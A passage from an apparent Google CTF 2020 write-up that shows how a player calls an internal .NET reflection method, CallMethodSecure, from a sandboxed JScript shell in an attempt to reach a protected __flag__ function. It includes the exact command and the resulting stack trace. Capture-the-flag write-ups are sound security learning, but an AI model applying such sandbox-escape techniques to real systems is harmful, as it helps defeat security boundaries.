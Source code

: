![Call stack for
CallMethodSecure](https://gist.github.com/bennofs/6a4466cdc746a5b994a32cfa923a9e8e/raw/cd3a26bc283cac8a6136415f81f450a664c16762/call-
stack-secure.svg)

`CallMethodSecure` thus allows us to call arbitrary functions that can use the
`ReflectionPermission`. We can control which function is called with the
parameters passed to `CallMethodSecure`. The documentation of the
[ReflectionPermission](https://docs.microsoft.com/en-
us/dotnet/api/system.security.permissions.reflectionpermission?view=dotnet-
plat-ext-3.1) states:

> Without ReflectionPermission, code can use reflection to access only the
> public members of objects. Code with ReflectionPermission and the
> appropriate ReflectionPermissionFlag flags can access the protected and
> private members of objects.

Let's try to call `__flag__` function through the `CallMethodSecure` method
(since `CallMethodSecure` is `internal`, we need to use `CallMethod` to call
it):

```  
MathSH> __init__(true)  
MathSH>
__global__.JScriptRunner.JScriptUtils.CallMethod(__global__.JScriptRunner.JScriptUtils.GetMethod(__global__.JScriptRunner.JScriptUtils.FindType("JScriptRunner.JScriptUtils",true),
"CallMethodSecure",true,true,true,array(this,"__flag__",true,array())),this,array(this,"__flag__",true,array()))  
System.Reflection.TargetInvocationException: Exception has been thrown by the
target of an invocation. ---> System.Reflection.TargetInvocationException:
Exception has been thrown by the target of an invocation. --->
SlimlineJScript.EvaluationException: Can't open flag file.  
  at JScriptRunner.JScriptGlobal.__flag__()  
  --- End of inner exception stack trace ---  
  at System.RuntimeMethodHandle.InvokeMethod(Object target, Object[]
arguments, Signature sig, Boolean constructor)  
  at System.Reflection.RuntimeMethodInfo.UnsafeInvokeInternal(Object obj,
Object[] parameters, Object[] arguments)  
  at System.Reflection.RuntimeMethodInfo.Invoke(Object obj, BindingFlags
invokeAttr, Binder binder, Object[] parameters, CultureInfo culture)  
  at JScriptRunner.JScriptUtils.CallMethod(Object targetObject, String name,
Boolean case_sensitive, Object[] args)  
  at JScriptRunner.JScriptUtils.CallMethodSecure(Object targetObject, String
name, Boolean case_sensitive, Object[] args)  
  --- End of inner exception stack trace ---  
  at JScriptRunner.JScriptGlobal.WriteException(Exception ex)  
  at JScriptRunner.JSShell.Run()  
  at JScriptRunner.EntryPoint.Run(String flag_path, IShell shell)  
  at GoogleCTF2020.Program.RunShell(IShell shell)  
```

Dang, we still can't query the flag since we only got `ReflectionPermission`
and the `FileIOPermission` still applies. But, nonetheless, we can see from
the stacktrace that this method is called via `CallMethodSecure`!
